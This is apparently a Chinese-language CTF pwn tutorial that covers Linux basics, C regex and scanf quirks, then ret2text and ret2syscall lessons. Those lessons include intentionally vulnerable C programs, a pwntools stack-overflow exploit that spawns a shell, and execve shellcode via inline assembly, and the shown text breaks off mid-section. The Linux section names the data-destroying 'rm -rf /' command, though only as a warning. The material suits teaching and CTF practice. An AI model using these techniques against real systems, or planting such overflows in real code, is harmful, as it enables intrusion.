






Table of Contents
=================

* [基础篇](#基础篇)
  * [Linux常用命令](#linux常用命令)
    * [基本命令](#基本命令)
      * [pwd 查看当前目录](#pwd-查看当前目录)
      * [whomai 查看当前登录用户](#whomai-查看当前登录用户)
      * [cd 更改当前目录](#cd-更改当前目录)
      * [ls 列出目录内容](#ls-列出目录内容)
    * [搜寻查找](#搜寻查找)
      * [locate 搜寻](#locate-搜寻)
      * [whereis 搜寻](#whereis-搜寻)
      * [which 搜寻](#which-搜寻)
      * [find 搜寻](#find-搜寻)
      * [grep 过滤](#grep-过滤)
    * [修改文件和目录](#修改文件和目录)
      * [cat 连接](#cat-连接)
      * [touch 创建文件](#touch-创建文件)
      * [mkdir 创建目录](#mkdir-创建目录)
      * [cp 复制文件和目录](#cp-复制文件和目录)
      * [mv 移动或重命名](#mv-移动或重命名)
      * [rm 删除文件和目录](#rm-删除文件和目录)
    * [参考](#参考)
  * [C语言正则](#c语言正则)
    * [介绍](#介绍)
    * [分析](#分析)
      * [regcomp](#regcomp)
      * [regexec](#regexec)
      * [regfree](#regfree)
      * [regerror](#regerror)
    * [实例](#实例)
    * [参考](#参考-1)
  * [scanf特性](#scanf特性)
    * [介绍](#介绍-1)
    * [%d格式化控制符](#d格式化控制符)
    * [%s格式化控制符](#s格式化控制符)
    * [参考](#参考-2)
  * [gets特性](#gets特性)
  * [常用汇编指令](#常用汇编指令)
  * [GitHub入门](#github入门)
  * [Python入门](#python入门)
* [原理篇](#原理篇)
  * [ret2text](#ret2text)
    * [介绍](#介绍-2)
    * [ret2text](#ret2text-1)
      * [Exploit](#exploit)
    * [技巧](#技巧)
    * [实战](#实战)
    * [参考文章](#参考文章)
  * [ret2syscall](#ret2syscall)
    * [介绍](#介绍-3)
    * [系统调用](#系统调用)
    * [execve](#execve)
    * [ret2syscall](#ret2syscall-1)
      * [Exploit](#exploit-1)
    * [实战](#实战-1)
    * [参考](#参考-3)
  * [ret2shellcode](#ret2shellcode)
    * [介绍](#介绍-4)
    * [shellcode](#shellcode)
    * [EIP/RIP控制](#eiprip控制)
    * [ret2shellcode](#ret2shellcode-1)
      * [Exploit](#exploit-2)
    * [实战](#实战-2)
    * [参考](#参考-4)
  * [ret2libc](#ret2libc)
    * [介绍](#介绍-5)
    * [调用约定](#调用约定)
    * [延迟绑定](#延迟绑定)
    * [ret2libc level01](#ret2libc-level01)
      * [Exploit](#exploit-3)
    * [ret2libc level02](#ret2libc-level02)
      * [Exploit](#exploit-4)
    * [ret2libc level03](#ret2libc-level03)
      * [Exploit](#exploit-5)
    * [实战](#实战-3)
    * [参考](#参考-5)
  * [format string vuln](#format-string-vuln)
    * [介绍](#介绍-6)
    * [printf 基础](#printf-基础)
      * [类型](#类型)
      * [标志](#标志)
      * [宽度](#宽度)
      * [大小](#大小)
    * [任意读](#任意读)
    * [任意写](#任意写)
      * [Exploit](#exploit-6)
    * [实战](#实战-4)
    * [参考](#参考-6)
  * [format string attack stack](#format-string-attack-stack)
  * [format string attack subfunction](#format-string-attack-subfunction)
  * [integer overflow](#integer-overflow)
  * [ropchain](#ropchain)
    * [介绍](#介绍-7)
    * [ropchain](#ropchain-1)
      * [ROPgadget](#ropgadget)
        * [Exploit](#exploit-7)
      * [Ropper](#ropper)
        * [Exploit](#exploit-8)
    * [实战](#实战-5)
    * [参考](#参考-7)
  * [orw shellcode injection](#orw-shellcode-injection)
    * [介绍](#介绍-8)
    * [沙盒](#沙盒)
      * [prctl沙盒](#prctl沙盒)
      * [seccomp函数库沙盒](#seccomp函数库沙盒)
    * [open, read, write系统调用](#open-read-write系统调用)
    * [orw shellcode](#orw-shellcode)
      * [Exploit](#exploit-9)
      * [pwntools Exploit](#pwntools-exploit)
    * [拓展 BPF](#拓展-bpf)
    * [实战](#实战-6)
    * [参考](#参考-8)
  * [or shellcode injection](#or-shellcode-injection)
    * [介绍](#介绍-9)
    * [cmp与jz](#cmp与jz)
    * [or shellcode](#or-shellcode)
      * [Exploit](#exploit-10)
    * [实战](#实战-7)
    * [参考](#参考-9)
  * [double shellcode injection](#double-shellcode-injection)
  * [mprotect shellcode injection](#mprotect-shellcode-injection)
    * [介绍](#介绍-10)
    * [mprotect](#mprotect)
    * [mprotect shellcode](#mprotect-shellcode)
      * [Exploit](#exploit-11)
    * [实战](#实战-8)
    * [参考](#参考-10)
  * [alphanumeric shellcode injection](#alphanumeric-shellcode-injection)
  * [bypass canary](#bypass-canary)
    * [介绍](#介绍-11)
    * [canary保护](#canary保护)
    * [printf leak canary](#printf-leak-canary)
    * [puts leak canary](#puts-leak-canary)
    * [scanf输入绕过canary](#scanf输入绕过canary)
    * [爆破canary](#爆破canary)
    * [SSP leak](#ssp-leak)
    * [劫持\_\_stack\_chk\_fail](#劫持__stack_chk_fail)
    * [利用auxv控制](#利用auxv控制)
    * [实战](#实战-9)
    * [参考](#参考-11)
  * [dynelf](#dynelf)
  * [one\_gadget use](#one_gadget-use)
  * [stack migrate](#stack-migrate)
    * [介绍](#介绍-12)
    * [leave指令](#leave指令)
    * [栈迁移](#栈迁移)
      * [Exploit](#exploit-12)
    * [栈劫持](#栈劫持)
    * [实战](#实战-10)
    * [参考](#参考-12)
  * [vsyscall trick](#vsyscall-trick)
  * [chunk extend and overlapping](#chunk-extend-and-overlapping)
  * [unlink](#unlink)
  * [off by one](#off-by-one)
  * [use after free](#use-after-free)
  * [double free](#double-free)
  * [fastbin dup](#fastbin-dup)
  * [tcache dup](#tcache-dup)
  * [house of force](#house-of-force)
  * [house of spirit](#house-of-spirit)
  * [io\_file attack](#io_file-attack)
  * [realloc trick](#realloc-trick)
  * [setcontext trick](#setcontext-trick)
  * [fix the symbol table](#fix-the-symbol-table)
    * [介绍](#介绍-13)
    * [符号表](#符号表)
    * [剥离符号表](#剥离符号表)
    * [恢复符号表](#恢复符号表)
    * [参考](#参考-13)
* [工具篇](#工具篇)
  * [ROPgadget](#ropgadget-1)
    * [介绍](#介绍-14)
    * [安装](#安装)
    * [使用](#使用)
  * [Ropper](#ropper-1)
    * [介绍](#介绍-15)
    * [安装](#安装-1)
    * [使用](#使用-1)
  * [one\_gadget](#one_gadget)
    * [介绍](#介绍-16)
    * [安装](#安装-2)
    * [使用](#使用-2)
  * [seccomp\-tools](#seccomp-tools)
    * [介绍](#介绍-17)
    * [安装](#安装-3)
    * [使用](#使用-3)
  * [LibcSearcher](#libcsearcher)
* [实战篇](#实战篇)
  * [pwnable\.tw](#pwnabletw)
    * [start](#start)
      * [分析](#分析-1)
      * [Exploit](#exploit-13)
    * [orw](#orw)
    * [dubblesort](#dubblesort)
  * [2021 蓝帽杯](#2021-蓝帽杯)
    * [slient](#slient)
      * [分析](#分析-2)
      * [Exploit](#exploit-14)
  * [2021 长城杯](#2021-长城杯)
    * [K1ng\_in\_h3Ap\_I](#k1ng_in_h3ap_i)
      * [分析](#分析-3)
* [研究篇](#研究篇)
  * [format string vuln attack \.got](#format-string-vuln-attack-got)

>   谨献给我最爱的羊羊
>
>   
>
>   
>
>   也献给那些热爱生活的人, 这些年我们已经失去的太多了\~ \~

# 基础篇

## Linux常用命令

### 基本命令

#### pwd 查看当前目录

你想要知道你终端下当前处于哪个文件夹中, 可以用pwd来查看


#### whomai 查看当前登录用户

查看当前用户就可以知道当前用户的权限用户目录之类的东西, 在攻防的时候会比较常用


#### cd 更改当前目录

如果想要进入哪个目录, 可以用cd命令来实现


如果要返回上级目录可以用`cd ..`, 因为在Linux有两种比较特殊的目录, 一个就是`..`还有一个是`.`, 前者代表上级目录, 后者代表本地目录


如果要返回上两级目录可以用`../..`, 同理三级也一样的原理


如果只输入cd命令, 那么是进入当前用户的用户目录下


#### ls 列出目录内容

如果要知道当前目录下有什么可以用该命令来查看


如果要看指定目录的内容, 加上目录路径就行


如果要查看内容的详细信息, 可以加上`-l`参数


但其实还有一些隐藏文件还没有被列出来, 比如`.`和`..`就是特殊文件, 加上`-a`参数就可以


当然`-l`参数和`-a`参数可以合并为`-la`

### 搜寻查找

#### locate 搜寻

locate算是最简单的搜寻命令, 加上一个关键字就可以去遍历整个文件系统去找匹配的文件


但是它有时搜索的东西无用的信息很多, 而且它的数据库每天只会更新一遍, 这就导致刚创建的文件会找不到


#### whereis 搜寻

whereis只能搜寻二进制文件, 原始代码或者帮助文件, 不能查找其他东西


注意它是根据文件索引库的内容去找的, 所以也不是所有的都能找到吧


#### which 搜寻

which是通过PATH环境变量里的路径来搜寻文件的, 范围比whereis要小点


#### find 搜寻

find命令是这几个中最强大的搜寻工具, 最简单的使用就是指定搜寻开始目录, 指定文件类型和指定文件名称进行搜索


该指令为从`/`根目录开始, 搜寻文件类型为f(普通文件), 名称为level00(这里有没有引号都行)的文件, find还支持通配符模糊搜索


`?`是匹配单个字符, 而`*`是匹配任意长度

#### grep 过滤

grep可以接收另一个命令的结果, 然后对结果进行一个过滤查找到我们需要的结果, 比如所ps指令是查看进程


但是它返回的结构太多了, 这时候就需要经过grep过滤来查找我们需要的进程


管道符号`|`将ps结果发送给grep, 然后过滤出含有nginx的进程信息

### 修改文件和目录

#### cat 连接

平时常用cat命令是来查看文件的内容, 但是它的本质其实是连接几个文件内容

平时用法


连接文件


同时cat还有一个写入文件的用法, 用到重定向`>`和`>>`

当输入

```sh
$ cat > file
```

它就会进入交互模式, 你输入的每一行内容都会输入到文件中(其实单纯的cat加文件就是cat标准输入, 获取标准输入的东西), 最后按Ctrl+D就能退出


#### touch 创建文件

touch命令加文件名就可以创建一个空白文件


#### mkdir 创建目录

mkdir加上目录名称就可以创建一个空目录


#### cp 复制文件和目录

对于文件来说很简单, 直接就是

```sh
$ cp file /dirpath/newfile
```

这样就能将file复制到dirpath下重命名为newfile, 如果不要重命名, 可以这样写

```sh
$ cp file /dirpath/
```

最后的`/`不能少, 这是代表将file复制到dirpath下


如果要赋值目录的话, 需要加参数`-r`指定被复制的目录


#### mv 移动或重命名

mv本质是移动文件

```sh
$ mv /dirpath/file /newdirpath/
```

这样就将dirpath的file文件移动到了newdirpath中了


但是就是移动的过程中可以对文件重命名, 如果就移动到文件的当前目录下, 就造成了对文件的重命名功能, Linux中没有专门的重命名工具


mv对目录的用法是一样的

#### rm 删除文件和目录

删除文件很简单

```sh
$ rm file
```

就可以删除文件, 如果删除不了, 可以加`-f`参数强制删除


但是删除目录有点区别, 如果是空目录, 可以用`rmdir`命令来删除


但是如果目录下是有文件的, 那么删除就会报错, 你必须用rm命令并用`-r`参数指定要删除的目录


>   注意, 永远不要尝试 "rm -rf /"这条命令, 这条命令是强制删除根目录包括根目录下的东西, 如果执行了该命令, 整个系统就会报废

### 参考

-   https://www.runoob.com/linux/linux-command-manual.html

-   《Linux Basics For Hackers》
-   《鸟哥的Linux私房菜 基础学习篇》
-   《Linux就该这么学》
-   《Linux命令行与Shell脚本编程大全》

## C语言正则

### 介绍

C语言正则主要依赖于三个函数, 也可以说是三个步骤

1.   regcomp 编译正则表达式
2.   regexec 匹配正则表达式
3.   regfree 释放正则表达式

### 分析

#### regcomp

regcomp的作用就是将指定的正则表达式pattern编译成regexec可识别的compile

regcomp的函数原型为

```c
#include<regex.h>
int regcomp(regex_t *compile, const char *pattern, int cflags)
```

-   regex_t是一个结构体数据类型, 用来存放编译后的正则表达式

-   pattern是我们写好的正则表达式字符串指针

-   cflags则是处理标志, 一共有四个值, 可以用`|`进行运算
    -   REG_EXTENDED 以扩展正则表达式的方式来进行匹配
    -   REG_ICASE 匹配的时候忽略大小写
    -   REG_NOSUB 不用存储匹配的结果, 只返回是否匹配
    -   REG_NEWLINE 识别换行符

返回值是错误代码, 如果为0, 则没有错误, 否则就需要用regerror来查看错误

```c
regex_t compile;
const char *pattern = "^[0-9]+";	// 匹配以数字开头的n个字符
if((regcode = regcomp(&compile, pattern, REG_EXTENDED|REG_NOSUB)) == 0) {	// 使用扩展正则, 而且只返回是否匹配, 不存储结果
    //...
}
```

#### regexec

该函数就是对目标文本进行匹配

函数原型为

```c
#include<regex.h>
#include<sys/types.h>
int regexec(const regex_t *compile, const char *string, size_t nmatch, regmatch_t pmatch[], int eflags);
```

-   compile 也就是通过regcomp编译好的正则表达式
-   string 要匹配的字符串
-   nmatch pmatch数组的长度
-   pmatch regmatch_t结构体数组, regmatch_t描述为

```c
typedef struct {
    regoff_t rm_so;	// 存放的是匹配文本在字符串中的起始位置
    regoff_t rm_eo;	// 存放的是匹配文本在字符串中的结束位置
} regmatch_t;
```

-   eflags 只有两个值
    -   REG_NOTBOL 特殊字符^无效
    -   REG_NOTEOL 特殊字符$无效

```c
if((regcode = regexec(&compile, string, 0, 0, 0))) {	// 因为只匹配不要返回结果, 所以3, 4两个参数无效
    //...
}
```

#### regfree

regfree可以清空regex_t中的内容

函数原型为

```c
#include<regex.h>
void regfree(regex_t compile);
```

```c
regfree(&compile);
```

#### regerror

regerror主要就是来查询regcomp或regexec返回的错误代码

函数原型为

```c
#include<regex.h>
#include<sys/types.h>
size_t regerror(int errcode, const regex_t *compile, char *errbuf, size_t errbuf_size);
```

-   errcode 也就是regcomp或regexec返回的错误代码
-   compile 编译好的正则表达式
-   errbuf 指向存放错误信息的字符串的指针
-   errbuf_size 指名errbuf的大小, 超过就会截断

```c
char errbuf[1024] = {0};
regerror(regcode, compile, errbuf, sizeof(errbuf)-1);
puts(errbuf);
```

### 实例

```c
#include<regex.h>
#include<sys/types.h>
#include<stdio.h>
#include<stdlib.h>

int regex(char *string) {
    regex_t compile;
    const char *buf = "^[0-9]+";
    char errbuf[1024] = {0};
    int regcode = 0;
    if((regcode = regcomp(&compile, buf, REG_EXTENDED|REG_NOSUB)) == 0) {
        if((regcode = regexec(&compile, string, 0, 0, 0)) == 0) {
            return 1;
        }
    }
    regerror(regcode, &compile, errbuf, sizeof(errbuf));
    puts(errbuf);
    exit(1);

}

int main() {
    char string[0x30] = {0};
    scanf("%48s", string);
    if(regex(string)) {
        printf("well done\n");
    }
    return 0;
}
// gcc regex.c -o regex
```


### 参考

-   https://linux.die.net/man/3/regcomp

## scanf特性

### 介绍

scanf学习C语言开发比较先学习的输入函数, 但是我们从pwn的角度来看该函数, 其实这个函数有很多特性还是挺好玩的

### %d格式化控制符

我们都知道%d是输入一个有符号的整数, 我们来检测一下该格式化控制符具有的一些特性

```c
#include<stdio.h>
int main() {
    int num;
	scanf("%d", &num);
    printf("%d\n", num)
    scanf("%d", &num);
    printf("%d\n", num);
    return 0;
}
// gcc program.c -o program
```

这个num没有初始化, 所以num一开始对应的值是内存中的数据

-   正常的输入
    %d针对的是int类型, 也就是范围在 -2147483648~2147483647, 只要是这个范围的都是正常的输入


-   long long int输入
    %d可以输入long long int长度的数字, 也就是范围在 -9223372036854775808~9223372036854775807, 只要是这个范围内的数字, 会进行高位截断, 只把低位留给变量


-   超过long long int
    超过long long int的数字, scanf正数自动接收为-1, 负数接收为0


-   输入非数字的字符
    如果第一次输入输入一个非数字字符, 将==不会修改num的值==, 而且会把该字符留在输入缓冲中, 等下一次输入取出来, 但是这里第二次输入也是%d, 所以会因为这个字符直接跳过输入


​	如果输入前一部分是数字, 后一部分是非数字, 那么将会把数字给识别了, 然后把非数字留在输入缓冲中, 等待下一次	输入取出, 也就是这里第二次输入会对应输入缓冲中的非数字, 直接跳过了输出


​	但是非数字有两个是例外的, '+'和'-', 这两个字符==会被%d给解析, 但是却不会修改num的值==


%u也有和%d同样的特性

### %s格式化控制符

```c
scanf("%s", buf);
```

这条语句是具有溢出漏洞的, 因为它对%s没有进行宽度控制, 所以可以进行无限制输入, 并且scanf是==根据'\n'进行截断, 而不是根据'\x00'==, 这点和printf的%s不同, printf的%s是根据'\x00'截断输出

```c
#include<stdio.h>
#include<unistd.h>
int main() {
    char buf[0x50] = {0};
    scanf("%s", buf);
    write(1, buf, 0x50);
    return 0;
}
// gcc program.c -o program
```


aaaa和bbbb都打印出来了, '\x00'不可打印所以没有打印出来, '\n'截断, 所以'\n'开始都没有输入到buf中, 而且截断后不会在结尾插入任何东西(gets会在输入结尾插入'\x00')

### 参考

-   https://blog.csdn.net/qq_54218833/article/details/121308367

## gets特性


## 常用汇编指令

## GitHub入门

## Python入门


# 原理篇

## ret2text

### 介绍

ret2text是ROP系列中最简单的一类题型, 它的一个本质就是控制程序流去执行程序本身所带的代码片段, 继而获取flag或shell
主要分为三个大步骤

1. 寻找程序的溢出点
2. 寻找程序内可利用的代码片段
3. 通过溢出控制程序流去执行可利用片段

### ret2text

熟悉这一题型最好的方法就是通过实例来讲解, 这里以一个x64的题目来分析

```c
#include<stdio.h>
#include<stdlib.h>

void hint() {
	system("/bin/sh");
}

int main() {
	char buf[0x10];
	printf("Who are you?\n");
	scanf("%s", buf);
	return 0;
}
// gcc ret2text_basic.c -o ret2text_basic -fno-stack-protector
```

虽然hint函数没有被调用, 但是编译器还是会给它分配空间, 而不是将那段代码删除


而hint函数里执行的代码就是创建一个"/bin/sh"进程, 也就是所谓的获取到shell, hint函数满足了三大步骤的第二个步骤可利用代码段

接着分析main函数, main函数的buf变量是一个局部变量, 所以它是存储在栈里, 这里的一个栈布局为


而scanf函数的"%s"格式化控制符没有指定最多输入字节数, 也就是说可以无限制输入字节, 那么就会造成栈溢出, 溢出的一个后果就是可以覆盖main函数的函数返回地址, 可以将这个返回地址填充为任意可执行片段去执行, 这样三大步骤的第一个步骤溢出点就找到了, 注意需要计算变量buf到函数返回地址之间有多少个无关字节, 需要用随意字符去填充
最后要做的就是控制程序的执行流, 既然我们可以覆盖函数返回地址为任意可执行片段地址跳转去执行, 那么可以直接填充为hint函数地址跳转过去拿到shell


当main函数执行到ret指令时, 就会返回跳转到hint函数去执行

#### Exploit

```python
from pwn import*

o = process('./ret2text_basic')
 
hint = 0x4005D6
payload = 'a'*0x18 + p64(hint)
o.sendline(payload)

o.interactive()
```

在调用scanf函数下一条指令处设置断点, 看看执行情况


接着执行到ret指令



ret指令会跳转到当前栈顶的那个地址去接着执行代码


最后就会执行system("/bin/sh")获取到shell


### 技巧

1.  哪些函数可以获取到shell或者flag?

一般来说ret2text都是通过system函数去创建新进程来获取shell, 除了system("/bin/sh")可以获取shell外, system("sh"), system("$0")也都可以获取到shell
也有的是用execve系统调用, 类似于execve("/bin/sh", 0, 0)
再有就是不给shell, 只用open打开flag文件读取出来

2.   哪些函数可以造成溢出?

gets函数是最经典的无限制输入, 还有就是scanf的%s格式化控制符, 或者read函数输入的最大字节数超过buffer大小也会造成溢出
还有的人喜欢用循环来输入, 循环次数不对, 然后造成溢出也有这种情况

3.   如何计算变量到函数返回地址之间的无关字数?

这个首先需要找到变量地址和函数返回地址, 一种方法就是看IDA中的相对栈, 双击变量就可以查看


s是rbp或ebp, r是函数返回地址, 变量地址看具体情况, 我们这里示例的变量地址就是var_10, 所以中间的无关字节就是0x10+ebp或rbp栈帧大小=0x18
还有就是汇编学的好的话, 看汇编可以直接看出来


这里的rbp+var_10就是buf变量的相对地址, 而var_10的值是-0x10, 所以等同于rbp-0x10, 而rbp+8的位置就是函数返回地址, 所以无关字节为rbp+8-(rbp-0x10) = 0x18 [x86一样的道理, 就是栈帧大小不一样]
再次者, 可以通过gdb调试来看, 把断点设在scanf函数调用处


pwndbg会显示函数参数是什么, 而scanf第二个参数就是buf变量的地址


而函数返回地址就在rbp的前一个栈帧
再说一个常识, 程序调用其他函数都是通过call指令来调用, call指令会将call指令的下一条指令地址压入栈作为被调用函数的函数返回地址, 当函数执行完成就会返回跳转去执行call指令的下一条指令, 所以当你不确定你找的是不是函数返回地址, 那么你就去找那条call指令的下一条指令地址, main函数的函数返回地址通常为__libc_start_main+xxx
个人觉得通过rbp/ebp定位更快一点

### 实战

-   https://buuoj.cn/challenges#bbys_tu_2016
-   https://buuoj.cn/challenges#ciscn_2019_n_1
-   https://buuoj.cn/challenges#jarvisoj_level0

### 参考文章

-   https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/#ret2text

## ret2syscall

### 介绍

ret2syscall用的是系统调用的知识, 什么是系统调用?

系统调用是操作系统提供给用户的资源接口, 可以通过系统调用来操作资源, 像平时用的库函数本质执行到最后都是执行系统调用, 只不过都被库函数给封装了

而在系统调用中有一个特殊的系统调用: execve, system函数执行到最后就是调用execve, 所以执行system("/bin/sh")就相当于执行execve("/bin/sh", 0, 0), ret2syscall就是溢出跳转去执行execve("/bin/sh", 0, 0)

>   沙盒机制限制execve系统调用的情况作为拓展

### 系统调用

 具体来讲解一下系统调用

系统调用有三大要素: 参数, 系统调用号和中断指令. 系统调用的参数传递和用户函数的参数传递不太一样, 系统调用参数都是依靠寄存器来传参, x86平台和x64平台用的寄存器不一样

-   x86平台: ebx, ecx, edx, esi, edi
-   x64平台: rdi, rsi, rdx, r10, r8, r9

系统调用号的定义在/usr/include/asm/unistd.h中

-   x86平台execve定义: #define __NR_execve 11, 然后传入eax
-   x64平台execve定义: #define __NR_execve 59, 然后传入rax

其他的可以直接去查

中断指令x64平台的是对x86平台的一种封装, 运行效率更高

-   x86平台中断指令: int 0x80
-   x64平台中断指令: syscall

接着来讲一下execve("/bin/sh", 0, 0)的执行过程

1.  传参: 将必要的参数传递给对应的寄存器. x86为ebx ← "/bin/sh", ecx ← 0, edx ← 0; x64为rdi ← "/bin/sh", rsi ← 0, rdx ← 0
2.  传入系统调用号: x86为 eax ← 11; x64为 rax ← 59
3.  执行中断

最后用内联汇编(x86)来执行看看, 这里只用最简单的pop和push指令来展示, 用其他指令也可以

```c
char *p = "/bin/sh";
int main() {
    __asm(
        "push p\n"
        "pop  ebx\n"
        "push 0\n"
        "pop ecx\n"
        "push 0\n"
        "pop edx\n"
        "push 11\n"
        "pop eax\n"
        "int 0x80"
    );
}
// gcc asm.c -m32 -masm=intel -o asm
```


### execve

execve是在父进程中fork一个子进程

函数原型为

```
#include<unistd.h>
int execve(const char* filename, char* const argv[], char *const envp[]);
```

参数filename字符串代表的是执行文件的路径, 第二个参数是利用指针数组来传递给执行文件, 并且以空指针结束, 最后一个参数是传递给执行文件新环境变量数组

举一个例子

```c
#include<unistd.h>


int main() {
    char *argv[] = {"ls", "-al", "/home", 0};
    char *envp[] = {0};
    execve("/bin/ls", argv, envp);
    return 0;
}
// gcc execve.c -o execve
```


参考: https://baike.baidu.com/item/execve/4475693?fr=aladdin

### ret2syscall

```c
#include<stdio.h>
#include<unistd.h>
char buf[] = "/bin/sh";

void hint() {
    __asm("pop ebx\npop eax\nret");
    __asm("int 0x80");
}

void run() {
    char buf[10];
    printf("Who are you?");
    read(0, buf, 0x50);
    __asm("xor ecx, ecx\nxor edx, edx");
}

int main() {
    run();
    return 0;
}
// gcc ret2syscall.c -m32 -masm=intel -fno-stack-protector -o ret2syscall
```

判断一道题是不是ret2syscall的题型最简单的方法是看程序里有没有中断指令, 没有基本就不是(并不绝对, 可以调用内核里的中断指令, 做多了就能看出来了)

可以直接用ROPgadget工具来搜寻有没有

```shell
ROPgadget --binary ./pwn --only "int"    # x86
ROPgadget --binary ./pwn --only "syscall"    # x64
```

接着就需要找到对应的指令将参数和系统调用号传递给对应的寄存器, 看个人汇编经验, 一般找的都是"pop|ret"这种指令

```shell
ROPgadget --binary ./pwn --only "pop|ret"
```

最后溢出布局栈就可以拿到shell

以一道x86题来举例


read函数溢出


hint函数中存在int 0x80中断指令, 也可以用ROPgadget来查找中断指令


